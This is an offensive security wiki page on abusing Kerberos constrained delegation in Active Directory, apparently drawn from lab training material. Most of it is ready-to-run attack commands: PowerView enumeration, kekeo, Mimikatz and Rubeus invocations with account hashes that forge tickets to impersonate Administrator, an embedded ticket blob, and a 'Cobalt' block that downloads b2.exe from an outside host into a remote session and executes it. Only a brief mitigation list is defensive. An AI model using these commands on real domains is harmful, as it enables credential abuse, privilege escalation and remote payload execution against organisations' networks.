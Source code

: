 # Constrained Delegation

## Constrained Delegation

Using this a Domain admin can allow 3rd parties to impersonate a user or computer against a service of a machine.

* **Service for User to self (**_**S4U2self**_**):** If a **service account** has a _userAccountControl_ value containing [TRUSTED\_TO\_AUTH\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) (T2A4D), then it can obtains a TGS for itself (the service) on behalf of any other user.
* **Service for User to Proxy(**_**S4U2proxy**_**):** A **service account** could obtain a TGS on behalf any user to the service set in **msDS-AllowedToDelegateTo.** To do so, it first need a TGS from that user to itself, but it can use S4U2self to obtain that TGS before requesting the other one.

**Note**: If a user is marked as ‘_Account is sensitive and cannot be delegated_ ’ in AD, you will **not be able to impersonate** them.

This means that if you **compromise the hash of the service** you can **impersonate users** and obtain **access** on their behalf to the **service configured** (possible **privesc**).\
Also, you **won't only have access to the service that user is able to impersonate, but also to any service that uses the same account as the allowed one** (because the SPN is not being checked, only privileges). For example, if you have access to **CIFS service** you can also have access to **HOST service**.\
Moreover, notice that if you have access to **LDAP service on DC**, you will have enough privileges to exploit a **DCSync**.

{% code title="Enumerate from Powerview" %}
```bash
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
{% endcode %}

{% code title="Using kekeo.exe + Mimikatz.exe" %}
```bash
#Obtain a TGT for the Constained allowed user
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d
#Get a TGS for the service you are allowed (in this case time) and for other one (in this case LDAP)
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLAR CORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
#Load the TGS in memory
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~ dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'  
```
{% endcode %}

{% code title="Using Rubeus " %}
```bash
#Obtain a TGT for the Constained allowed user
.\Rubeus.exe asktgt /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi
#Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator
#Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS
#Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST
#Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp
```
{% endcode %}

{% code title="Other Method (Rubeus)" %}
```
Rubeus.exe tgtdeleg 
.\Rubeus.exe s4u
/ticket:doIE9jCCBPKgAwIBBaEDAgEWooIEBTCCBAFhggP9MIID+aADAgEFoQsbCU0zQy5MT0NBT
KIeMBygAwIBAqEVMBMbBmtyYnRndBsJTTNDLkxPQ0FMo4IDwzCCA7+gAwIBEqEDAgECooIDsQSCA6
3MkP00gTXk3eKQPGJKfoYjY3I3Bg0T6zCZVoQOLPIWI0qR7oMkgRcV1bQ6iyTdAfbbWeuR/IK7osn
RC4EckM+t7QvA4Qnr0t6EJtFNEexa2NG5F9sOv5tlDVSRmFec2+zvw5CDv+sO9dgnOFCPv9rxW40F
Dyz41ccdLuHiRIUT5IgBfT8FR+KF87vc+fFwVDlbqETlzmXUH0or334+YUMdjJDahw/UZAgZh9/U/
hGpqsHdhujNsgJR+MCARBAuC+1PLtzDrRLFR8/Ay4svRr1KAQN7KVopt2FeMUAtWy2QTHWyMFvl7b
5sR4jk0INj5p97Iy1/c9K8V/H0B56PCcUxib+z2SxYZ0koNgsTRI4VwmLxXG7lNu512/fUrLxpcbP
fnAuGAqZuUAKcZquReDRNp3FaKNSphWoY3nTO2ays4hUq3Skhhn3TybM1yg7l4yzdeS+fbBOJ76O2
RpvaMJk3OjTgbMftyKl3nx8yI4Knlxxj0XixHaS3L2lLGfWeCiRaSnJhRq1A10QA/7IMU+V4MkVLf
3sxz4A1TCESHuO2lWvMud3QACJiQlp+uZc8mzKDSHzq8ZUXfHwUw5GjnsMz+n05o+a5/HiGtTzysX
21IukfnHrGDQd2EHd8XVSfhI5ntxhAny3P8WKcBDy5J3gDLqjGZAQA5TeZril/HKT64uk/S8rmOr5
BSQJGZxXpzMyTs38D1Szi2oGADeSF7mZoN3BS8ebkBgxqxJaOxAnFeGlRjao6je79encUOS/iWmfv
ooGP296u8xB4y6Hki+1MLH7QFN2gVddZ5UTZKsE45qZzixEfOa8qKbejb/dCAgAquNCKpbL/2VGCJ
whPrDVVRDZFNy6DBZ29wZI3GjhcSU/K2JnN8vIe0EpHOaPgHVIF19tGzyioeTZdedjRCC7P6LCEUc
rojWbXJt8bxP3BbJN6Bdp9nwTogKf3OONJhapRn0PfZZQYQdZ0tEd3RNAmqCyWEf5tbUd+wyjwjVE
2cdObubHOJQtcXiMxZF7G9YReg/XzGybX4hkindZyS/9jkff4BiIaMk/e7L66ASIT4EeaIiSwS9tn
fCiJxBb59Arn7WYIH+srTRSCYbssbSiCghUW15km5fo4KnVNO6UIWDxdk0JZ+z5JnkL6TGo0++bLX
dOAyPXDWoPmCbLA3jyFebHN98jzzPZgotC7vFpTv8h5jJ5zNeIxcN7PHr+qMRbBISMxxB6mkHFB1g
8yubytnDET6Wx4LUm3OIzqRaOB3DCB2aADAgEAooHRBIHOfYHLMIHIoIHFMIHCMIG/oCswKaADAgE
SoSIEID46bIOxprG+RsD6AyYyOB2Izk7AINDtf+FOAXDBbdlioQsbCU0zQy5MT0NBTKIUMBKgAwIB
AaELMAkbB3N2Y19zcWyjBwMFAGChAAClERgPMjAyMDA0MjIwOTEwNDFaphEYDzIwMjAwNDIyMTkwM
DAxWqcRGA8yMDIwMDQyOTA5MDAwMVqoCxsJTTNDLkxPQ0FMqR4wHKADAgECoRUwExsGa3JidGd0Gw
lNM0MuTE9DQUw= impersonateuser:Micheal.Crosley /domain:m3c.local /msdsspn:"time/m3webaw" /altservice:http /ptt 
```
{% endcode %}

{% code title="Cobalt" %}
```
$session = new-pssession -computername m3webaw
invoke-command $session {powershell -NoP -NonI -c Invoke-WebRequest -Uri 'http://10.10.14.177:80/b2.exe' -OutFile 'c:\\Windows\\Temp\\b2.exe'}
invoke-command $session {cd 'c:\\Windows\\Temp'; .\b2.exe}G
```
{% endcode %}

### Mitigation

* Disable kerberos delegation where possible
* Limit DA/Admin logins to specific services
* Set "Account is sensitive and cannot be delegated" for privileged accounts.

[**More information in ired.team.**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
